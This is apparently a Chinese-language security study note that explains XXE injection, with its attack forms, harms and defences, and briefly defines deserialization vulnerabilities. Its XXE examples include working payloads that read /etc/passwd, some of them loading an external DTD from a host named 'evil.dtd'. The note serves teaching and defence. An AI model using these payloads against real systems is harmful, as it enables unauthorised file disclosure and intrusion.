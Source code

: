 ## XXE是什么？攻击方法？危害？防御方法？
#### XXE是什么？
先了解，外部实体声明:<!ENTITY 实体名称 SYSTEM "URI">，示例如下：
```
<?xml version="1.0"?>
<!DOCTYPE test [
	<!ENTITY writer SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
	<!ENTITY copyright SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
]>
<author>&writer;&copyright;</author>
```
xxe也就是xml外部实体注入。
#### XXE攻击方法
a. 直接通过DTD外部实体声明
```
<?xml version="1.0"?>
<!DOCTYPE a [
	<!ENTITY b SYSTEM "file:///etc/passwd">
]>
<c>&b;</c>
```
b. 通过DTD文档引入外部DTD文档，再引入外部实体声明

XML内容：
```
<?xml version="1.0"?>
<!DOCTYPE a SYSTEM "http://mark4z5.com/evil.dtd">
<c>&b;</c>
```
DTD文件内容：
```
<!ENTITY b SYSTEM "file:///etc/passwd">
```
c. 通过DTD外部实体声明引入外部实体声明

XML内容：
```
<?xml version="1.0"?>
<!DOCTYPE a [
	<!ENTITY % d SYSTEM "http://mark4z5.com/evil.dtd">
	%d;
]>
<c>&b;</c>
```
DTD文件内容：
```
<!ENTITY b SYSTEM "file:///etc/passwd">
```
#### XXE危害
```
a. 任意文件读取
b. 执行系统命令
c. 探测内网端口
d. 攻击内网
```
#### XXE防御方法
```
a. 禁用外部实体声明
b. 过滤关键词（<!DOCTYPE，<!ENTITY，SYSTEM等）
```

## 反序列化漏洞
#### 序列化和反序列化
1) 序列化：    	把Object转化成字节流，便于保存( eg. Java writeObject() )

2) 反序列化：	把字节流还原成Object ( eg. Java readObject() )
#### 反序列化漏洞
程序对于用户输入的进行反序列化处理，可能导致恶意payload导致的任意代码执行。
#### 影响
Java, PHP, Python等主流计算机语言都存在这种代码隐患。

